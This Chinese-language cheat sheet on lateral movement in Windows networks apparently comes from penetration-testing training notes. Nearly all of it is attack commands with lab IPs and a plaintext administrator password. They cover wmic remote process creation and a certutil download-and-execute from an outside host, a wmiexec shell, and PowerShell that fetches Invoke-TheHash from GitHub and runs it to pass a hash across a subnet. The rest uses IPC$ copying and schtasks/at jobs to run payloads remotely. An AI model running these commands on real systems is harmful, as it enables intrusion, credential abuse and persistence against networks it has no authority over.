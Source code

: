 # 横向移动技术



#### SMB <a id="smb"></a>

#### WMI <a id="wmi"></a>

使用wmic查询远程主机进程信息：

```text
wmic /node:192.168.111.251 /user:administrator /password:360College  process list brief
```

![](https://p408.ssl.qhimgs4.com/t012c7e4c27c967d88d.png)

创建进程：

```text
wmic /node:192.168.111.251 /user:administrator /password:360College  process call create "calc.exe"
```

![](https://p408.ssl.qhimgs4.com/t01b9633bf2b32bfa67.png)

```text
wmic /node:192.168.111.251 /user:administrator /password:360College  process call create "cmd /c  certutil.exe -urlcache -split -f http://192.168.111.1:8080/test/putty.exe c:/windows/temp/putty3.exe & c:/windows/temp/putty3.exe"
```

![](https://p408.ssl.qhimgs4.com/t01e689aa008a1e8c52.png)

使用powershell查看主机进程信息：

```text
Get-WmiObject -Namespace "root\cimv2" -class Win32_process -Credential administrator -ComputerName 192.168.111.251
```

![](https://p408.ssl.qhimgs4.com/t0141b1c91a0ded1a4d.png)

查看共享信息：

```text
Get-WmiObject -Namespace "root\cimv2" -class Win32_process -Credential administrator -ComputerName 192.168.111.251
```

![](https://p408.ssl.qhimgs4.com/t01c8c70c6639c8f435.png)

打开交互式shell:

```text
python setup.py install
python wmiexec.py -share admin$ administrator:360College@192.168.111.51
```

![](https://p408.ssl.qhimgs4.com/t012f662b0b548f12b6.png)

使用HASH碰撞内网中其他机器：

```text
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-WMIExec.ps1');
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-TheHash.ps1');
Invoke-TheHash -Type WMIExec -Target 192.168.111.0/24 -Domain rootkit -Username administrator -Hash 7c70a81c7c5882c24298d391fd397885
```

![](https://p408.ssl.qhimgs4.com/t01506f4bee8e9b393b.png)

#### 计划任务 <a id="-"></a>

**ipc**

```text
net use \\192.168.111.201\IPC$ /user:"administrator" "360College"
copy C:\Users\guanxingzhou\Desktop\putty.exe \\192.168.111.201\c$
```

**schtasks**

```text
schtasks /create /s 192.168.0.70 /u Administrator /p 360College /ru "SYSTEM" /tn CMDNAME /sc DAILY /st 22:18 /tr C:\\Users\\college\\Desktop\\sha\\cmd.bat /F
```

**at**

```text
at \\192.168.3.102 19:30 /every:5,6,7,10,18,19,21,24,28 c:\windows\temp\cmd.bat
```

